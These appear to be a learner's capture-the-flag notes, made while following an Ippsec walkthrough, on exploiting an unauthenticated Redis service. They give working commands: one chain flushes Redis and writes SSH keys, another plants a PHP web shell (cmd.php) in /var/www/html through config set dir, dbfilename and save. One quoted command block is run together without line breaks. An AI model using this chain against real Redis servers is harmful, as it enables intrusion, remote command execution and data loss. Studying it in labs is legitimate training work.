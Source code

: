 Following along with Ippsec till we have a shell he demonstrates [Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). 
Firstly the article is suggesting to check if we can access the instance
```bash
nc localhost 6379
# We provide:
echo "Hey no AUTH required!"
```
We get back:
![](redisechoheynoauthrequired.png)
Therefore we can access it and the article then explain that...*"no AUTH required. Redis is unprotected without a password set up"*

It then suggest to create an ssh key, but we do not have ssh on the box and prosumably the redis box does not either. This is similar to the real world cloud environments where sysadmin should have only just in time access to the machines that do not need ssh, rdp - ask yourself should a container really need ssh after configuration. The anwser is no, we can redeploy the updated version of the machine as it is infrastructure as code being a docker container. Ippsec discuss the enumeration of connection between database and the web application.

For hits to be reflected on the page we both the web app, the database and the `ajax.php?test=` top connect the two. Testing how those interact is important.

- How do the applications and services running connect?
	- If they connect i.e web-app has URI that queries database, using the URI what can be done to both services - commands, api calls, etc?

Following along with Ippsec or the article
```bash
$ redis-cli -h 192.168.1.11 flushall$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackitLooks good. How to dump our memory content into the authorized_keys file? That’skinda trivial.

$ redis-cli -h 192.168.1.11192.168.1.11:6379> config set dir /Users/antirez/.ssh/OK192.168.1.11:6379> config get dir1) "dir"2) "/Users/antirez/.ssh"192.168.1.11:6379> config set dbfilename "authorized_keys"OK192.168.1.11:6379> saveOK
```

WE need to use [FLUSHALL](https://redis.io/commands/flushall/)
```bash
# Delete all the keys of all the existing databases, not just the currently selected one. This command never fails.
flushall [ASYNC | SYNC]
```

The rationale behind the last three lines are before the comment... woops.
1. We need a web shell, that written in php 
2. To do such that it can be accessed by the webpage from redis we tell redis to
3. have some content we call `subscribetoippsec` populating the string with a web shell 
4. then tell redis the filename to be served by the webpage call cmd.php
5. then where that file should stored
6. the flushall will flush all the keys and values that we are providing over netcat that may exist in memory 
```bash
nc localhost 6379 
flushall
set subscribetoippsec "<? system($_REQUEST['cmd']); ?>"
config set dbfilename cmd.php
config set dir /var/www/html
# Then do not be an idiot and save it...
save
```
